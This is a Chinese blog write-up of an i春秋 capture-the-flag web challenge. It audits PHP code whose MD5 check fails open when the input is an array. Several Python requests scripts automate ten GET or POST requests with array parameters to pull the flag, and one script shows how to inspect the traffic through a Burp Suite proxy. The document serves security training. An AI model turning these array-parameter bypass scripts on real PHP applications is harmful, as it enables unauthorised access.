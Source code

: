 ```yaml
---
title: 【i春秋】 Web —— 爆破-3
copyright: true
date: 2018-09-11 23:06:53
tags: [i春秋,CTF,Writeup,Web,Audit,PHP,Python,HTTP]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题出自「百度杯」CTF 比赛 2017 二月场，是第三道 「爆破」系列的 Web 题，主要考察在理解了题目 PHP 代码的逻辑后，**通过网络编程与服务器交互获取 flag** 的能力，难度中低，需要的基础知识有：**PHP、Python、HTTP协议**。

题目链接在「i春秋」的 CTF 大本营，解题链接通过创建在线靶场后得到：

- 题目链接：[https://www.ichunqiu.com/battalion?t=1&r=57475](https://www.ichunqiu.com/battalion?t=1&r=57475)

<!-- more -->

![question](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/question.png)

# 0x01 理解 PHP 代码逻辑

打开链接，发现本题的 PHP 源码比前两题要复杂，做审计题首先是要理解代码逻辑：

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

- Line 3~9：开始会话，包含 flag.php 文件，为超级全局变量 [`$_SESSION`](http://php.net/manual/en/reserved.variables.session.php) 的三个参数初始化。
- Line 11~13：若 Session 有效期超过了两分钟，则销毁当前会话。
- Line 15~17：先通过 GET 请求或 POST 请求获取的 `value` 参数，再随机选择两个小写字母拼接成字符串。
- Line 19~23：若 `$_SESSION['whoami']` 等于 `$value` 数组中两个元素的拼接，并且 `$value` 的 MD5 哈希值的第 5~8 位等于 0，则将 `$_SESSION['nums']` 自增，将 `$_SESSION['whoami']` 更新为随机字符串并输出。
- Line 25~27：若 `$_SESSION['nums']` 大于等于 10，则输出 flag。

理解了代码逻辑后，再结合提示，基本可判断此题真的需要通过网络交互，来「爆破」获取 flag。

# 0x02 编写 Python 网络通信脚本

本题的难点是**如何通过 GET 或 POST 请求，传送同一数组参数的不同元素值**。常见方法有以下两种：

- `value[]=e&value[]=a`
- `value[0]=e&value[1]=a`

使用 Firefox 浏览器，针对 GET 请求进行验证。第一种方法：

![method1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/method1.png)

第二种方法：

![method2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/method2.png)

针对 POST 请求同样适用，请读者自行验证。

将页面显示的新值传入 `value` 参数后，按上述方法手动循环 10 次，即可满足输出 flag 的条件，但只仅对于次数少的情况有效，如果循环 100 次，还想继续手动操作吗？这时，使用 Python 的**第三方开源库 [Requests](https://requests.kennethreitz.org/en/master/)** 编写自动化脚本，即可轻松解决问题，基本用法可参考：

> [详解 CTF Web 中的快速反弹 POST 请求](https://ciphersaw.github.io/2017/12/16/%E8%AF%A6%E8%A7%A3%20CTF%20Web%20%E4%B8%AD%E7%9A%84%E5%BF%AB%E9%80%9F%E5%8F%8D%E5%BC%B9%20POST%20%E8%AF%B7%E6%B1%82/)

以下是针对 GET 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = "?value[0]={}&value[1]={}".format(whoami[0], whoami[1])
	response = s.get(url + payload)
	whoami = response.text[:2]
print(response.text)
```

- Line 8~12：自动循环提交 10 次 GET 请求，并输出每次循环的 `value` 参数。
- Line 13：将最后一次响应的报文内容输出，即可看到 flag。

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/flag.png)

将第 10 行改为 `payload = "?value[]={}&value[]={}".format(whoami[0], whoami[1])` 同样能获得 flag。

# 0x03 使用 BurpSuite 抓取 Python 流量数据

针对 GET 请求直接构造字符串 payload 相对简单，如果使用 POST 请求，还需要构造表单数据的 `dict` 类型变量。以下是针对 POST 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = {"value[0]": whoami[0], "value[1]": whoami[1]} 
	response = s.post(url, data = payload)
	whoami = response.text[:2]
print(response.text)
```

显而易见，只有第 10、11 行与 GET 请求不同，运行完上述脚本后也能获得 flag。不过，当我们依葫芦画瓢将第 10 行改为 `payload = {"value[]": whoami[0], "value[]": whoami[1]} ` 后，却发现无法获得 flag 了：

![flag_failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/flag_failure.png)

借此机会，讲解一下如何使用 Burp Suite 抓取 Python 发送的网络请求包，相信大家看到请求包后，答案便一目了然。以下是利用代理抓取 POST 请求包的 Python 脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
payload = {"value[]": whoami[0], "value[]": whoami[1]} 
burp = {"http": "127.0.0.1:8080"}
response = s.post(url, data = payload, proxies = burp)
```

- 构造 POST 请求中 [`proxies` 代理参数](https://requests.kennethreitz.org/en/master/user/advanced/#proxies)的 `dict` 类型变量，其中 `http` 是代理访问 URL 的协议类型，`127.0.0.1:8080` 是 Burp Suite 的本地监听地址与端口号。

将 Burp Suite 开启 Intercept 模式，运行上述脚本即可看到：

![burp_failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/burp_failure.png)

可发现表单数据只剩 `value[]=a`，原来前面 `value[]=e` 的值已被覆盖。那么问题来了，如何构造 POST 请求中不带索引的同一数组参数的不同值呢？

正确的构造方法是 `payload = {"value[]": [whoami[0], whoami[1]]} ` ，再次运行脚本，即可看到表单数据正常提交了：

![burp_success](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/burp_success.png)

其实，使用 requests 模块自带的方法也能查看请求头与请求体，对应的 Python 脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = 'http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/'
s = requests.Session()
whoami = "ea"
payload = {"value[]": [whoami[0], whoami[1]]} 
response = s.post(url, data = payload)
print(response.request.headers)
print(response.request.body)
```

运行后即可在终端上看到请求头与请求体：

![requests_body](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/requests_body.png)